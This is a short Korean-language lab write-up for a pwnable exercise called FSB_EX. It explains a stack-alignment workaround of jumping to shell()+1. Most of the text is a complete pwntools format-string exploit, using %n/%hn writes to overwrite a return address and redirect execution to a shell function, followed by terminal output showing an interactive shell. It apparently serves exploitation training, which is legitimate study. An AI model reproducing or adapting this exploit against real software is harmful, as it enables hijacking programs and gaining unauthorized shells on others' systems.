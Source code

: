 그러나 스택정렬 이슈를 해결하기 위해선 pop이나 push가 있는 가젯을 사용할 수도 있겠지만 지금처럼 상황이 받쳐주지 않는다면, `push rbp` 등을 생략한 후 함수의 위치로 이동하여 해결할 수 있음
어차피 `0x0000000000401166 <+0>:	push   rbp` 이 명령어를 지나치고 진행하더라도, 에필로그에서 문제가 있는 것이기 때문에, system이 실행되는 동안은 문제가 없음
따라서 `shell_syb=e.symbols["shell"]+1` 이렇게 애초에 shell()의 주소를 1을 더해서 가져오면 됨 

---

- exploit
```python
from pwn import *

p=process("./FSB_EX")
#p=gdb.debug("./FSB_EX")
e=ELF("./FSB_EX")
context.log_level='DEBUG'

shell_syb=e.symbols["shell"]+1 #0x401166
shell_high_order=(shell_syb>>16)&0xFFFF
shell_low_order=shell_syb&0xFFFF

main_ret=0x40123c
main_high_order=(main_ret>>16)&0xFFFF
main_low_order=main_ret&0xFFFF

payload=b''

buf_addr=int(p.recvline()[2:],16)
buf_size=0xd8


payload+=b'%'+str(shell_high_order).encode()+b'c'  #b'%64c'
payload+=b'%9$n'

payload+=b'%'+str(shell_low_order-shell_high_order).encode()+b'c'   #b'%4604c'
payload+=b'%10$hn'

payload+=b'a'*(8-len(payload)%8)

payload+=p64(buf_addr+buf_size+2)
payload+=p64(buf_addr+buf_size)

#payload = b'a'*8 + payload

p.send(payload)

p.interactive()
```

---

- 결과 
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_EX]
└─$ python3 exploit.py 
[+] Starting local process './FSB_EX': pid 33978
[*] '/home/foo1/Desktop/kknock/pwnable/FSB_EX/FSB_EX'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
\xc8aaaa\x1a\xb6\xc07\xfc$    id
uid=1000(foo**1**) gid=1000(foo1) groups=1000(foo1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),138(docker)
```